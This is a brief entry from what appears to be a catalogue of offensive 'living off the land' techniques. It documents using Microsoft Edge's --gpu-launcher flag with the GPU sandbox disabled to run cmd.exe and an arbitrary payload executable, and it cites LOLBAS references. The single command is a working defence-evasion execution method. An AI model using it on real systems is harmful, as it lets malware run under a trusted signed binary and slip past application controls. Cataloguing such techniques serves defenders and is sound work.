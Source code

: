 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - T1218-015
  - windows
---
```

# MSedge

```
C:\> msedge.exe --disable-gpu-sandbox --gpu-launcher="C:\Windows\System32\cmd.exe /c C:\path\to\payload.exe && ping.exe -n 1 localhost"
```

---
## References

### LOLBAS

- [LOLBAS: MSedge](https://lolbas-project.github.io/lolbas/Binaries/Msedge/)

- [LOLBAS: MSedge Proxy](https://lolbas-project.github.io/lolbas/Binaries/msedge_proxy/)

- [LOLBAS: MSedgeWebView2](https://lolbas-project.github.io/lolbas/Binaries/msedgewebview2/)